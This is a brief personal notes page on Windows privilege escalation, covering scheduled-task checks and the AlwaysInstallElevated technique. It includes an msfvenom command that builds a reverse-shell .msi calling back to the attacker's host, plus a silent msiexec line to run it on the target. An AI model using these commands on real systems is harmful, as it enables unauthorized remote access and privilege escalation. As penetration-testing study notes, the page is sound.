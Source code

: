 Notes about privilege escalation on [[Windows]].

## Scheduled tasks

[[Windows/Enumeration#Scheduled Tasks]]

Check scheduled tasks. Can you overwrite the file being ran?

## AlwaysInstallElevated

[[Windows/Enumeration#AlwaysInstallElevated]]

Check if `AlwaysInstallElevated` is enabled.

Generate a malicious `.msi` on attacking computer, e.g. using `msvenom`:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

Transfer the malicious `.msi`.

Execute on the target computer:

```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## Related

- [[Windows]]
- [[Windows/Enumeration]]